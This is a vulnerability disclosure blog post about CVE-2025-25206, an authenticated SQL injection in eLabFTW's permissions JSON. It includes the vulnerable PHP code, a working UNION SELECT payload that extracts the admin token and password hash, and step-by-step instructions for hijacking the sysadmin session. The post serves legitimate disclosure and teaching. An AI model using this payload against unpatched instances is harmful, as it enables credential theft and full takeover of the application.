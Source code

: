 ```yaml
---
layout: post
title: "Elabftw CVE-2025-25206"
category: cve
tags: [elabftw, cve-2025-25206, security]
cvss_score: 8.3
cvss_vector: "CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:L"
---
```


## Authenticated SQL Injection via Metadata Update
{% if page.cvss_score %}
  {% include cvss.html score=page.cvss_score vector=page.cvss_vector %}
{% endif %}

### Identifying the Vulnerability

[Elabftw](https://github.com/elabftw/elabftw) is an experiment tracking software used by many universities, particularly in Europe it seems. I came across it during a CTF and thought it looked interesting, so I cloned the Github repo and started to dig in.

Prior to going deep into any web assessment, I like to manually look at every query string in an app to ensure that there aren't any irregularities.  Sure this takes time, but often I find that I can catch things that automated scanners miss.

Often times string concatenation is a major culprit for SQL injection, and since this app is written in PHP that syntax would look something like `$sql = "SELECT something from table WHERE id = " . $id`. Knowing this, I did a full regex search through the codebase along the lines of `/SELECT.*\..*/`, basically just looking for string concatenation.

After going through the results, one function in the `Users` model caught my eye

```php
    public function readNamesFromIds(array $idArr): array
    {
        if (empty($idArr)) {
            return array();
        }
        $sql = "SELECT CONCAT(users.firstname, ' ', users.lastname) AS fullname, userid, email FROM users WHERE userid IN (" . implode(',', $idArr) . ') ORDER BY fullname ASC';
        $req = $this->Db->prepare($sql);
        $this->Db->execute($req);

        return $req->fetchAll();
    }
```

As can be seen, this `idArr` field is being concatenated onto the sql string.  


```php
$sql = "SELECT CONCAT(users.firstname, ' ', users.lastname) AS fullname, userid, email 
FROM users WHERE userid IN (" . implode(',', $idArr) . ') ORDER BY fullname ASC';
```

If somehow it weren't sanitized we as an attacker could inject arbitrary SQL and potentially read sensitive data.

Tracing the call stack, I found that `idArr` is passed in by `PermissionsHelper` to see which users have permissions to view an experiment.

```php
   /**
     * Make the permissions json string an array with human readable content, translate the ids
     */
    public function translate(Teams $Teams, TeamGroups $TeamGroups, string $json): array
    {
        $permArr = json_decode($json, true, 512, JSON_THROW_ON_ERROR);
        $result = array();

        $base = BasePermissions::tryFrom($permArr['base']) ?? throw new ImproperActionException('Invalid base parameter for permissions');
        $result['base'] = $base->toHuman();
        $result['teams'] = $Teams->readNamesFromIds($permArr['teams']);
        $result['teamgroups'] = $TeamGroups->readNamesFromIds($permArr['teamgroups']);
        $result['users'] = $Teams->Users->readNamesFromIds($permArr['users']);

        return $result;
    }
```

As can be seen, the `permArr` variable is just decoded JSON, and the `translate` function is just passing in the JSON from the key `users` to the `readNamesFromIds` function. If we as a user can alter the JSON (which is likely because we can update permissions for our experiments), we can execute a full SQL injection. 

Looking at the experiments UI, I saw an option to `changeVisibility` of an experiment. Clicking on it gives me this:

<figure style="text-align: center; margin: 2em 0;">
  <img src="/assets/img/elabftw/visibility.png" alt="Proxy" style="display: block; margin-left: auto; margin-right: auto; max-width: 90%; border-radius: 8px;">
</figure>

After clicking save and proxying the request through Burpsuite, I see the following:

<figure style="text-align: center; margin: 2em 0;">
  <img src="/assets/img/elabftw/visibility_intercepted.png" alt="Proxy" style="display: block; margin-left: auto; margin-right: auto; max-width: 90%; border-radius: 8px;">
</figure>


Perfect. As can be seen, when we update the `visibility` setting we are sending a JSON string with a `users` key, exactly what we need to abuse in order inject SQL.


### Exploiting

Given that we can inject arbitrary SQL, what type of attack should we go for next? Looking through the `MYSQL` config, I saw that the user does not have `FILE` permissions, so writing a reverse shell into the webroot is not an option.

Fortunately, there's a much simpler way to privilege escalation here -- a `UNION SELECT` query.  If we look at the original query,

```
$sql = "SELECT CONCAT(users.firstname, ' ', users.lastname) AS fullname, userid, email FROM users WHERE userid IN (" . implode(',', $idArr) . ') ORDER BY fullname ASC';
```

we can see that it's fetching 3 text columns from the database. Given that most sensitive data (password hashes, tokens) are stored in the text format, we can use that to our advantage.

To escape out of the original SQL string and perform a UNION attack, I went with the following values for `users`:

```
9999999) UNION SELECT email, token, password_hash FROM users WHERE id = 1 OR 1 IN (2
```

While to those unfamiliar with SQLi this may look strange, when concatenated onto the original SQL query we get the following:

```
SELECT CONCAT(users.firstname, ' ', users.lastname) AS fullname, userid, email FROM users WHERE userid IN (9999999) UNION SELECT email, token, password_hash FROM users WHERE id = 1 OR 1 IN (2) ORDER BY fullname ASC
```

This is a perfectly valid SQL query. Note that the `SELECT CONCAT` part is basically ignored whereas the `UNION SELECT` part will always return results. This allows us to get the sysadmin's token and password hash, enabling full takeover of the app.

### PoC

1. Login to elabftw as an unprivileged user.
2. Create an experiment and edit the visibility. 
3. Capture the request in BurpSuite or another proxy. Change the `users` field in the `canread` JSON object to the payload above

    <figure style="text-align: center; margin: 2em 0;">
      <img src="/assets/img/elabftw/sqli.png" alt="Proxy" style="display: block; margin-left: auto; margin-right: auto; max-width: 90%; border-radius: 8px;">
    </figure>

4. Refresh the experiments page. Where the permissions options lives, you should the see the results of the UNION query, which contains a password hash, token, or whatever you're targeting.

    <figure style="text-align: center; margin: 2em 0;">
      <img src="/assets/img/elabftw/sqli_results.png" alt="Proxy" style="display: block; margin-left: auto; margin-right: auto; max-width: 90%; border-radius: 8px;">
    </figure>

5. If targeting admin token, copy the token and replace the existing `token` cookie with that value.  

    <figure style="text-align: center; margin: 2em 0;">
      <img src="/assets/img/elabftw/token.png" alt="Proxy" style="display: block; margin-left: auto; margin-right: auto; max-width: 90%; border-radius: 8px;">
    </figure>

6. Request the `sysconfig.php` page in your browser. You are now logged in as sysadmin with full control over the app.

    <figure style="text-align: center; margin: 2em 0;">
      <img src="/assets/img/elabftw/sysadmin.png" alt="Proxy" style="display: block; margin-left: auto; margin-right: auto; max-width: 90%; border-radius: 8px;">
    </figure>

### Final Thoughts
This app in general is quite strictly audited and pretty well secure. It just goes to show that sometimes simple, obvious mishaps can go under the radar. 

Note that this has been patched and a security advisory has been published here: [GHSA-qffc-rfjh-77gg](https://github.com/elabftw/elabftw/security/advisories/GHSA-qffc-rfjh-77gg)
 
